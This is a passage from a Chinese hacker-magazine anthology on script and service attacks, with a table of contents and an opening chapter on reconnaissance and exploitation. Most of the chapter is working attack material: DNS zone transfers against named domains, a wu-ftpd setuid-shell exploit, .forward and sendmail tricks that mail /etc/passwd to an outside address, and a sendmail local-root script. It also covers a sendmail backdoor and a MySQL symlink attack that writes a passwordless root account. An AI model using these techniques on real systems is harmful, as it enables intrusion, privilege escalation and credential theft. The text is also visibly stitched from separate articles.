# 代码攻击精粹

---

# 黑客防线 专辑


# 35名黑客 60年

涉及各种脚本安全问题的实战作品

# 代码攻击精粹

扫描王　网络安全杂志社

## 黑客防线编辑部

本书由SQL、shocker、null、谷夕、无用君、tombkeeper、analysist、幻影、Pskey、EnvyMask、东方飘云、欲望之翼、isno、SHADOW、ey4s、kaka、www417、lcx、bloves、奇奇、向东、魔亦神、rdfdom、inburst、星☆龙、Tread、hetone、Bytes、Karlarso、王智雄、Torune、Softbug、stack、badboy、cnhackTNT等（排名部分先后）经验丰富的作者参与编写。

在此，我们衷心感谢他们，并祝他们事业、技术蒸蒸日上。

## 内容提要

《黑客防线》作为全国惟一的网络及计算机安全普及性刊物，长期以来因其专业、权威而备受读者欢迎，其每年度的精华本也是很多读者的首选读物。更有很多读者多次反映：《黑客防线》应该将其创刊以来的所有技术文章分类整理，做成针对性很强的专辑形式，便于爱好者收藏和查阅。所以，我们经过反复考虑，聚集《黑客防线》的精华文章，将其分为5个专辑出版，希望能够帮助大家。

《代码攻击精粹》这本专辑以全实例的形式介绍了黑客分析各种共享脚本程序代码的编写漏洞，从而衍生出来针对这些漏洞的攻击思路和方法，在这些脚本程序没有打安全补丁之前，利用这些程序BUG达到其攻击目的。内容上主要从ASP脚本、PHP脚本、CGI脚本、数据库脚本以及一些另类脚本分类讲解，每个分类下都有很多应用实例，非常方便读者进行研究学习。

35名黑客的60多篇文章中所涉及的各种脚本安全问题研究的文章代码和用到的程序都收录在光盘内边，请读者一定保存好光盘，以便阅读时候可以参照。

在此，我们衷心感谢他们，并祝他们事业、技术蒸蒸日上。

## 目录

### 第1章 黑客攻击从那里开始

-   1.1 入侵前目标主机的信息收集 …… 7
-   1.2 入侵从端口扫描开始 …… 12

## 第2章 ASP脚本攻击与防范

-   1.2.1 有关翔造论坛等多个基于ASP的论坛存在的严重安全问题 …… 21
-   1.2.2 对动网先锋ASP论坛的安全性分析 …… 24
-   1.2.3 过滤字符串不全的安全隐患 …… 26
-   1.2.4 对留言板的简单测试 …… 27
-   1.2.5 我是如何获取小榕论坛的用户密码的 …… 28
-   1.2.6 一次简单post攻击的例子 …… 31
-   1.2.7 利用ASP的特殊功能来实现的木马和入侵 …… 33
-   1.2.8 ASP程序漏洞实例解析 …… 36
-   1.2.9 ASP代码源程序下载后安全使用初识 …… 39
-   1.2.10 书写安全的ASP程序 …… 42

## 第3章 PHP脚本攻击与防范

-   1.3.1 PHP的10项安全检查 …… 48
-   1.3.2 新闻管理程序中“推荐好友”功能的安全隐患 …… 53
-   1.3.3 如何对PHP程序中的常见漏洞进行攻击 …… 54
-   1.3.4 导致PHP程序安全问题的错误案例 …… 61
-   1.3.5 如何充分利用phpnuke的漏洞 …… 63
-   1.3.6 一次虚拟的人侵经过 …… 70
-   1.3.7 一次虚拟的安全检测及修复方法 …… 73
-   1.3.8 我们是如何侵入某知名安全网的 …… 81
-   1.3.9 WDB及其各个美化、改良版均存在严重漏洞 ...... 85
-   1.3.10 WDB漏洞的修复及相关防范 ...... 88

## 第4章 CGI脚本攻击与防范

-   1.4.1 CGI安全概述 ...... 90
-   1.4.2 CGI漏洞攻击 ...... 92
-   1.4.3 活用CGI漏洞 ...... 94
-   1.4.4 增强CGI程序安全性的一点想法 ...... 98
-   1.4.5 检测朋友网站的安全性 ...... 100
-   1.4.6 服务器入侵日记 ...... 102
-   1.4.7 UT（UltraThreads v5.07）论坛漏洞分析 ...... 105
-   1.4.8 窥探YUZI的BBS3000社区安全性 ...... 108
-   1.4.9 BBS3000论坛用户注册新漏洞的分析 ...... 113
-   1.4.10 YUZI BBS3000论坛安全性分析 ...... 117
-   1.4.11 对雷傲LB5000论坛最新漏洞的利用 ...... 120
-   1.4.12 LB5K安全性分析 ...... 121
-   1.4.13 LB5K论坛remmail.cgi存在认证和过滤不严漏洞 ...... 124
-   1.4.14 LB5K论坛多个管理文件存在管理员验证码绕开漏洞 ...... 127
-   1.4.15 4个有问题的LB文件 ...... 131
-   1.4.16 LB5K论坛search.cgi文件漏洞再现 ...... 133
-   1.4.17 LB5K论坛search.cgi文件漏洞修复及相关防范 ...... 138
-   1.4.18 BBSXP多个文件存在SQL Injection漏洞 ...... 139
-   1.4.19 跨站攻击问答FAQ ...... 148

## 第5章 数据库攻击与防范

-   1.5.1 从入侵角度看Windows 2000的安全性 ...... 149
-   1.5.2 通过SQL攻击wwwthreads论坛 ...... 154
-   1.5.3 SQL Injection攻击技术 ...... 161
-   1.5.4 通过注入技术攻击ORACLE服务器 ...... 172
-   1.5.5 Oracle数据库默认密码的威胁 ...... 178
-   1.5.6 SQL Server触发器后门 ...... 182
-   1.5.7 保护数据库服务器加强数据库安全 ...... 184

## 第6章 另类脚本攻击与防范

-   1.6.1 Hotmail脚本漏洞分析 ...... 188
-   1.6.2 Foxmail 个性图标签名带来的安全隐患 ...... 189
-   1.6.3 利用邮件头反入侵——入侵与反追踪的技巧 ...... 194
-   1.6.4 蓝色代码详细分析 ...... 198
-   1.6.5 尼姆达蠕虫分析与解决方案 ...... 206
-   1.6.6 实际脚本攻击分析 ...... 214
-   1.6.7 亿唐Mail系统Cookie泄密漏洞 ...... 218
-   1.6.8 Solaris下的一次入侵分析 ...... 219
-   1.6.9 浅谈路径泄露 ...... 224
-   1.6.10 IIS配置不当的危害性 ...... 224
-   1.6.11 IE黑客常见攻击方法揭秘 ...... 226
-   1.6.12 浅谈网站文件的管理 ...... 233
-   1.6.13 Java源代码保护 ...... 234

## 第1章 黑客攻击从那里开始

### 1.1 入侵前目标主机的信息收集

当一个攻击者确定了一个攻击目标主机后第一步做的就应该是对目标主机进行一次详细的信息收集工作了，不仅仅是我们常用的端口扫描或者是什么漏洞扫描，扫描工具是必不可缺少的，但如果仅仅依靠扫描工具那少得可怜的报告来判断我们的目标存在什么漏洞是非常不可信的。我测试和使用过这么多的扫描软件和商业的网络安全评估系统，到目前为止，还没看到可以完全让我满意和信服的报告。所以本文介绍一些手动的主机信息收集步骤，希望可以对你有所帮助。

通过DNS查询得到目标的网络拓扑基本情况，目前很多主机的DNS服务器配置的并不安全，可以用ls命令泄露出自己的内部网络结构，得到这些信息可以方便我们摸清对方网络的组成情况。

下面是一次我利用nslookup来查询的过程，请仔细看步骤和传统的查询不同的地方：

```
C:\>nslookup
Default Server:  dns0.interway.com.cn
Address:  202.106.153.250

> www.isfocus.com    （这里是我要查询的地址）
Server:   dns0.interway.com.cn
Address:  202.106.153.250

Non-authoritative answer:
Name:    www.isfocus.com
Address: 202.102.4.12

> set q=all
> server isfocus.com
DNS request timed out.
timeout was 2 seconds.
Default Server:   isfocus.com
Address:  202.102.4.12

> server www.isfocus.com
Default Server:   www.isfocus.com
Address:  202.102.4.12

> ls isfocus.com
[www.isfocus.com]
 isfocus.com.    NS    server = ns1.cnmay.com    （一个很有用的结果下一步会用到）

isfocus.com.    A        202.102.4.12
mail            A        202.102.4.32
www             A        202.102.4.12
> server ns1.cnmay.com   这里用到了刚才的查询结果
Default Server:  ns1.cnmay.com
Address:         202.102.4.32

> ls cnmay.com
[ns1.cnmay.com]
cnmay.com.   NS       server = ns1.cnmay.com
cnmay.com.   A        202.102.4.10
admin12      A        202.102.4.12
mayu         A        202.102.4.12
dns2         A        202.102.4.10
firstdir     A        202.102.4.12
dns          A        202.102.4.32
cicq         A        202.102.4.12
agent        A        202.102.4.11
photo        A        202.104.4.12
mail         A        202.102.4.32
test         A        202.102.4.12
www          A        202.102.4.10
rabjin       A        202.102.4.10
ns1          A        202.102.4.32
mailserver   A        202.102.4.32
summer       A        202.102.4.15
chinaspx     A        202.102.4.11
js12u        A        202.102.4.12
ns2          A        202.102.4.12

```

看到没有？上面我首先查询自己站点www.isfocus.com，然后根据得到的地址ns1.cnmay.com来进行下一步的查询，很简单而且很方便地就摸清了我所用的主机ns1.cnmay.com的整个网络分布的大体情况，我想这个结果对于下一步入侵整个网络来说是非常有用的资料。

利用Tracert来查看与目标主机之间的网络结构，简单的说，就是看看数据包都经过了哪些路径走到目标主机的，这样一般可以很方便地确定目标主机的上层路由器和网络接入设备。以现在的网络设备来说，很多都是CISCO的东西，我之前说过，现在国内的CISCO都有配置问题，所以说不定哪个就可以被你利用，成为进入目标主机的最后一个跳板。当然，还有一个可能的地方就是控制一个边界路由器，如果想做些破坏的话危害和后果简直是不可想像的。

```
C:\>tracert 202.106.0.20

Tracing route to ns4.bta.net.cn [202.106.0.20]
over a maximum of 30 hops:

1    20 ms   30 ms   50 ms   202.72.157.33
2    60 ms   30 ms   70 ms   172.17.254.253
3    40 ms   30 ms   60 ms   202.167.83.10
4    20 ms   30 ms   40 ms   202.72.156.89
5    30 ms   30 ms   30 ms   202.99.57.121

```

```
6   40 ms  30 ms  40 ms  202.96.13.1
7   20 ms  80 ms  30 ms  202.106.192.229
8   30 ms  20 ms  71 ms  202.106.193.170
9   31 ms  30 ms  30 ms  202.106.193.46
10  40 ms  30 ms  70 ms  ns4.bta.net.cn [202.106.0.20]
Trace complete.

```

上面的结果是我随便测试的一个地址的结果，我想，如果按照这些地址去层层追查应该会有些收获的。记得有一次和我这里的小区接入服务商聊天，我说你们有一台CISCO7500好像有点问题，他们当时就很惊讶我是怎么知道得这么详细的，其实实用几个DOS命令加一个SNMP的信息查看工具就可以轻松查到的。

最后当然就是去实地勘察了。通过端口扫描结果好好看看对方的服务是采用什么应用软件来实现的，看看程序写的有没有什么问题。其实很多漏洞都是一些人在无意中发现的。看看下面我对“网络世界”的一次小小尝试就知道了（图1-1-1）。



图1-1-1

网络世界的BBS是整个站点不多的采用参数来传递数值查询的地方，我想找漏洞的话应该在这里了，关键就是去找那些根据我们提交参数来进行交互的地方，这是最容易出问题的地方（图1-1-2）。





图1-1-2

首先我们简单地在参数后面加上几个字符，主要是想引起服务器出错，方便我们来查看结果。服务器很老实地告诉我们，它是采用SQL SERVER来作为后台的数据库服务器（图1-1-3）。



图1-1-3

下一步，我们在参数上加上exec这样的SQL执行参数来试图执行一个非法的查询，可以看到服务器这次并没有简单地给我们出错的提示，而是更加老实地告诉我们xp_cmdshell在这里是没有权限执行的。很显然，我们的越权查询已经成功了（图1-1-4）。



图1-1-4

我试图恢复xp_cmdshell，没想到失败了，看来安全步骤做得还是不错的，或者当前的数据库OWNER不是SA权限的（图1-1-5）。

[图片缺少，无法显示]| 端口 | 状态 | 协议 | 服务 |
|------|------|------|------|
| 25   | open | tcp  | smtp |
| 37   | open | tcp  | time |
| 79   | open | tcp  | finger |
| 80   | open | tcp  | http |
| 111  | open | tcp  | sunrpc |
| 443  | open | tcp  | https |
| 512  | open | tcp  | exec |
| 513  | open | tcp  | login |
| 514  | open | tcp  | shell |
| 515  | open | tcp  | printer |
| 540  | open | tcp  | uucp |
| 2049 | open | tcp  | nfsd |
| 3306 | open | tcp  | mysql |
| 4045 | open | tcp  | lockd |
| 6000 | open | tcp  | xwindow |
| 6112 | open | tcp  | dtspc |
| 7100 | open | tcp  | fs |

TCP Sequence Prediction: Class=random positive increments
Difficulty=44933 (Worthy challenge)
Remote operating system guess: OpenBSD 2.2
Nmap run completed --- 1 IP address (1 host up) scanned in 34 seconds

以上就是我们扫描到的开放端口及所对应的服务，一般来说，软件为了在不同的操作系统上使用同样的协议，都使用着规定的标准端口，所以如果管理员没做特殊手脚的话，端口所对应的服务是不会错的。同时通过系统指纹猜测出该系统的操作类型。但这些扫描结果对我们有什么用处呢？我们至少知道了对方的服务，这样我们就可以来看看几个比较敏感的服务有没有什么问题了。

## 2. FTP

```text
# ftp www.target.com
Connected to www.target.com
220 FTP server(Version wu-2.4(1) Sun May 18 4:46:23 CDT 2001) ready.
Name(nohacker.root): anonymous
331 Guest login ok, send your complete e-mail address as password.
Password:
230 Welcome to The missing world
230 Guest login ok, access restrictions apply.
ftp>
```

出问题了吧？这里就可以发现这个使用的是 wu-ftp 2.4(1)，如果我们有一个合法账号，例如 hacker，那么就可以利用下面的方法拿到 root：

先编译 exploit：

```c
# cat wu-ftp.c
#include
#include
#include
main()
{
seteuid(0);
system("cp /bin/sh /tmp/.sh");
system("chmod 6777 /tmp/.sh");
}
```

```text
# cc -o bug wu-ftp.c
```

然后上传上去执行：

```text
ftp> quote "site exec bash -c wu-ftp.c"
200-bash -c wu-ftp.c
200 (end of 'bash -c wu-ftp.c')
```

如果成功的话，你再telnet到这台主机上时，.sh应该已经被copy到/tmp下了，执行它：

```text
# cd /tmp
# ./.sh
```

看看成功没有：

```text
# id
uid=12(hacker) gid=5(user) euid=0(root)
```

这是在有帐号和有这个漏洞的前提下，如果没有这些先前条件呢？看看ftp还能做什么：

```text
ftp>pwd
257 "/" is current directory.
ftp>ls -a
drwxrwxr-x 8 root wheel 1024 Oct 21 11:12 .
drwxrwxr-x 8 root wheel 1024 Oct 21 11:12 ..
drwxrwxr-x 2 root wheel 1024 Oct 21 11:12 bin
drwxrwxr-x 2 root wheel 1024 Oct 21 11:12 etc
drwxrwxr-x 2 root wheel 1024 Oct 21 1999 incoming
226 Transfer complete.
```

几个公众目录都是可写的，有空子可钻。另外如果是wu-ftp 2.4之前的版本的话，在主目录下输入：

```text
ftp>cd /
```

别以为这跟刚才输入的没区别，现在你再输入ls -a的话会发现你已经到了正常的基础目录里了。除此了这些，我们还可以：

```text
ftp>cd etc
250 CWD command successful.
ftp>get passwd
200 PORT command successful.
150 Opening BINARY mode data connection for passwd (201 bytes).
226 ASCII Transfer complete.
231 bytes received in 0.12 seconds (4.61 Kbytes/s)
ftp> ! cat passwd
root:*:0:0:::
bin:*:1:1:::
operator:*:11:0:::
ftp:*:14:50:::
nobody:*:99:99:::
```

是shadow过的，不过至少告诉了我们有什么用户，这几个都是系统用户，有兴趣的还可以去看看它们是不是用的默认密码。

主目录是可写的，那我们还可以用sendmail来拿passwd：

```text
# echo "| /bin/cat /etc/passwd|sed 's/^/ /'|/bin/mail admin@root.com.cn" >getpasswd
```

记住这里不能直接命名为 .forward，放上去后再改名：

```text
ftp>put getpasswd .forward
```

然后寄封信到anonymous：

```text
# echo test | mail anonymous@www.target.com
```

现在去检查你的信箱吧。

上面那些都是要开了匿名ftp才能用的方法，如果没开的话就让我们看看其它服务吧。

## 3. SMTP

先看看sendmail的几个老漏洞，前提是你要有一个合法用户：
sendmail 5.55拿passwd，跟上面的差不多：

```text
# telnet www.target.com 25
Trying 127.0.0.1...
Connected to www.target.com
Escape character is '^]'.
220 www.target.com Sendmail 5.55 ready at Saturday, 12 Oct 00 12:34
mail from: "|/bin/mail admin@root.com.cn < /etc/passwd|"
250 "|/bin/mail admin@root.com.cn < /etc/passwd|"... Sender ok
rcpt to: nosuchuser
550 nosuchuser... User unknown
data
354 Enter mail, end with "." on a line by itself

250 Mail accepted
quit
Connection closed by foreign host.
```

再看看8.7上的漏洞：

### 代码攻击精粹

```text
# telnet www.target.com 25
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
220 www.target.com ESMTP Sendmail 8.7.5/8.7.3; Saturday, 12 Oct 00 12:34
quit
221 localhost closing connection
Connection closed by foreign host.
# telnet www.target.com

hackerworld (SunOS)
login: nice
Password:
Last login: Sun May 10 6:15:23 from *.*.*.*
You have new mail.

$ cat >send.sh
------------------------------send.sh begin------------------------------
#!/bin/sh
echo 'main()' >>leshka.c
echo '{' >>leshka.c
echo ' execl("/usr/sbin/sendmail", "/tmp/smtpd", 0); ' >>leshka.c
echo '}' >>leshka.c
#
#
echo 'main()' >>smtpd.c
echo '{' >>smtpd.c
echo ' setuid(0); setgid(0); ' >>smtpd.c
echo ' system("cp /bin/sh /tmp; chmod a=rsx /tmp/sh"); ' >>smtpd.c
echo '}' >>smtpd.c
#
#
cc -o leshka leshka.c; cc -o /tmp/smtpd smtpd.c
./leshka
kill -HUP `ps -ax|grep /tmp/smtpd|grep -v grep|tr -d ' ' |tr -cs '[.digit;]' "\n" |head -n 1`
rm leshka.c leshka smtpd.c /tmp/smtpd
echo "Now type: /tmp/sh"
------------------------------send.sh end------------------------------
$ chmod 755 send.sh
$ ./send.sh
Now type: /tmp/sh
$ /tmp/sh
# whoami
root
```

### 还有WIZ后门：

```text
# telnet www.target.com 25
Trying 127.0.0.1...
Connected to www.target.com
Escape character is '^]'.
220 www.target.com Sendmail 5.55 ready at Saturday, 12 Oct 00 12:34
wiz
SHELL
$
```

## 4. Finger

这个东西被人称为万恶之源，让我们先试试拿出用户名字列表：

```text
# finger @@www.target.com
[www.target.com]
root
root
wyi
```

另外有朋友问我有些时候不同的主机为什么输出的finger格式不一样，这个主要是因为所使用的操作系统版本不同，导致finger的客户端的版本不同而发生的。所以细心的朋友可以通过观察这些不同的finger输出格式来帮助自己判断对方的操作系统。就拿root的显示区别来说吧，具体的区别如下：

| 操作系统 | Finger 输出格式 |
|----------|-----------------|
| IRIX | `root    In real life: Super-User` |
| BSD | `root    Name : System Administrator` |
| SUN | `root    In real life : Supper-User` |
| Linux | `root    Name: root` |
| FreeBsd | `root    Name: Charlie Root` |
| Sco | `root    Name: Superuser` |

## 5. HTTP

主要就是CGI漏洞的扫描，web服务器除了微软的IIS以外出严重问题的很少。

```text
$ telnet www.target.com 80
Trying 127.0.0.1...
Connected to www.target.com.
Escape character is '^]'.
HEAD / HTTP/1.0

HTTP/1.1 200 OK
Date: Mon., 14 May 2001 23:44:54 GMT
Server: Apache/1.3.12 (Unix) (Red Hat/Linux) mod_fastcgi/2.2.10 PHP/4.0.2
Last-Modified: Mon., 26 Mar 2001 21:44:10 GMT
ETag: "6406d b7d-3abfb8a2"
Content-Length: 2941
Keep-Alive: timeout=15, max=100
Content-Type: text/html
Connection: close
```

## 6. tvwwwscan

非常不错的cgi扫描工具，这个命令行扫描器在Win9x就可以用，别告诉我你没使用过：

```text
Don't tell your web server free from attack        tvwwwscan 1.2   2001/02/19
                                                  made by pilot
                                                  http://search.iland.co.kr

usage      : tvwwwscan <server> <port> <display> <type> <pmode> <a_idsmode>
<display>  : -v("0.6) scan type(display status) or -n(no display)
<type>     : -t1(use GET), -t2(scan virtual host), -t3(virtual and GET) or -n
<pmode>    : passive mode scan -pw(windows) -pu(unix) -pa(ALL) or -n(no apply)
<a_idsmode>: -ids(Anti-IDS mode URL Encoding)

example 1   : tvwwwscan drill.hackerslab.org 80 .
example 2   : tvwwwscan 127.0.0.1 80 -v
example 3   : tvwwwscan target.com 80 -n -n -pw
example 4   : tvwwwscan virtual.yourhost.com 8080 -v -t3 -pu
example 5   : tvwwwscan idstest.yourhost.com 80 -v -t1 -pa -ids

contact     : search@iland.co.kr (http://search.iland.co.kr)

Tested On   : Windows 95OSR2, 98, 98SE, NT4, 2k, Me

thanks r0ar korea security guys kuol(he designed the tvwwwscan logo)
Dug Song(monkey.org), UNYUN(Shadow Penguin Security), Roeiof(a author of pudding)

Powered by Borland C++ 5.5 (http://www.borland.com)
```

## 7. RPC

又到了我最喜欢的部分了。

| Program | Vers | Proto | Port  | Service |
|---------|------|-------|-------|---------|
| 100000  | 4    | tcp   | 111   | rpcbind |
| 100000  | 3    | tcp   | 111   | rpcbind |
| 100000  | 2    | tcp   | 111   | rpcbind |
| 100000  | 4    | udp   | 111   | rpcbind |
| 100000  | 3    | udp   | 111   | rpcbind |
| 100000  | 2    | udp   | 111   | rpcbind |
| 100024  | 1    | udp   | 32772 | status  |
| 100024  | 1    | tcp   | 32771 | status  |
| 100011  | 1    | udp   | 32773 | rquotad |
| 100021  | 1    | udp   | 4045  | nlockmgr|
| 100021  | 2    | udp   | 4045  | nlockmgr|
| 100021  | 3    | udp   | 4045  | nlockmgr|
| 100021  | 4    | udp   | 4045  | nlockmgr|
| 100002  | 2    | udp   | 32774 | rusersd |
| 100003  | 2    | udp   | 2049  | nfs     |
| 100002  | 3    | udp   | 32774 | rusersd |
| 100002  | 2    | tcp   | 32772 | rusersd |
| 100002  | 3    | tcp   | 32772 | rusersd |
| 100012  | 1    | udp   | 32775 | sprayd  |
| 100008  | 1    | udp   | 32776 | walld   |
| 100221  | 1    | tcp   | 32773 |         |
| 100021  | 1    | tcp   | 4045  | nlockmgr|
| 100021  | 2    | tcp   | 4045  | nlockmgr|
| 100021  | 3    | tcp   | 4045  | nlockmgr|
| 100021  | 4    | tcp   | 4045  | nlockmgr|

有nfs，去瞧瞧：

```text
# showmount -ea www.target.com
Export list for www.target.com:
/etc                (everyone)
/usr                (everyone)
/var/spool/mail     (everyone)
/usr/local          (everyone)
```

去拿passwd或者放 .rhosts 吧！说道 .rhosts，很多系统（例如SunOS）默认的hosts.equiv文件都是"++"的，所以别忘了 rlogin 进去试试。

## 8. MySQL

口碑不错的东西，但漏洞还是一堆，首先当然是sa的弱口令，还有3.23.31以前的溢出，还有下面的库文件创建问题：

```text
$ cd /var/tmp
$ ln -s /etc/passwd gotcha.ISD
$ ln -s /etc/shadow make_me_r00t.ISD
$ mysql -u user -h localhost -p somepassword '../../tmp'
create table gotcha(qqq varchar(255));
create table make_me_r00t(qqq varchar(255));
insert into gotcha values('\nr00t::0:0:Hacked_Fucked_ROOT:/:/bin/sh\n');
insert into make_me_r00t values('\nr00t::1:0:99999:7:-1:-1:\n');
\q
$
```

## 9. X-Window

＋和－这两个键相差不到半厘米，管理员在设置xhost会不会敲错呢，用xterm登陆一下就知道了。还有

## xwininfo:

```text
# xwininfo -root

xwininfo: Window id: 0x25 (the root window) (has no name)

  Absolute upper-left X:  0
  Absolute upper-left Y:  0
  Relative upper-left X:  0
  Relative upper-left Y:  0
  Width:  1024
  Height:  768
  Depth:  16
  Visual Class:  TrueColor
  Border width:  0
  Class:  InputOutput
  Colormap:  0x21 (installed)
  Bit Gravity State:  NorthWestGravity
  Window Gravity State:  NorthWestGravity
  Backing Store State:  NotUseful
  Save Under State:  no
  Map State:  IsViewable
  Override Redirect State:  no
  Corners:  +0+0  -0+0  -0-0  +0-0
  -geometry 1024x768+0+0
```

#### 10. 感觉+经验

